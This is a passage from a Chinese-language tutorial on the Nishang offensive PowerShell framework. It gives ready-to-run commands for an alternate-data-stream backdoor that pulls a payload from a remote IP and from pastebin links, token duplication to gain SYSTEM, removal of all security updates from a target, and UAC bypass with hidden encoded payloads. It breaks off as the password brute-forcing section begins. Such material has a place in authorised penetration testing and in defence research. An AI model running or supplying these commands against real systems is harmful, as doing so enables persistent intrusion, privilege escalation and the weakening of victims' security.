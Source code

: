 ```powershell
PS >Invoke-ADSBackdoor -PayloadURL http://192.168.254.1/Powerpreter.psm1 -Arguments HTTP-Backdoor "http://pastebin.
com/raw.php?i=jqP2vJ3x http://pastebin.com/raw.php?i=Zhyf8rwh start123 stopthis
```
这个脚本主要有两个参数，在上面介绍其他后门当中已经说明了，这里是类似的
需要说明的是，执行后它会在AppData的目录下建立一个ads并把我们的Payload注入进去，如果我们希望在cmd下看到我们这里建立的ads，需要使用：dir /a /r
### 4.客户端
对于这一部分的脚本，我就不再赘述了，因为网上早已经有了对于这一部分脚本的介绍说明：
[使用Powershell Client进行有效钓鱼][8]

### 5.权限提升
#### Enable-DuplicateToken
这个脚本可以帮助我们在已经获得了一定权限的情况下，使我们提升到System权限。
执行方式

```powershell
PS > Enable-DuplicateToken
```
具体的相关介绍可以查阅：
https://blogs.technet.microsoft.com/heyscriptingguy/2012/07/05/use-powershell-to-duplicate-process-tokens-via-pinvoke/

#### Remove-Update
这个脚本可以帮助我们移除系统所有的更新，或所有安全更新，以及指定编号的更新。
执行方式：

```powershell
PS > Remove-Update All       //移除目标机器上的所有更新
PS > Remove-Update Security  //移除目标机器上所有安全相关更新
PS > Remove-Update KB2761226 //移除指定编号的更新
```

#### Invoke-PsUACme
Invoke-PsUACme使用了来自于UACME项目的DLL来Bypass UAC。
![Bypass UAC](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/uac.jpg)
上表给出了各种UAC绕过的方法，我们可以在Invoke-PsUACme中指定相应方法执行。
执行方式：

```powershell
PS > Invoke-PsUACme -Verbose //使用Sysprep方法和默认的Payload执行
PS > Invoke-PsUACme -method oobe -Verbose //使用oobe方法和默认的Payload执行
PS > Invoke-PsUACme -method oobe -Payload "powershell -windowstyle hidden -e YourEncodedPayload" //使用-Payload参数可以自行指定要执行的Payload
```
除开以上而外，我们还可以使用-PayloadPath参数来指定Payload的路径，默认情况下Payload会在C:\Windows\Temp\cmd.bat结束。还可以使用-CustomDLL64（64位）或-CustomDLL32（32位）参数来自定义一个DLL文件。

### 6.扫描
#### Invoke-BruteForce
这个脚本可以对SQL Server、域控制器、Web以及FTP进行口令的爆破
执行方式：
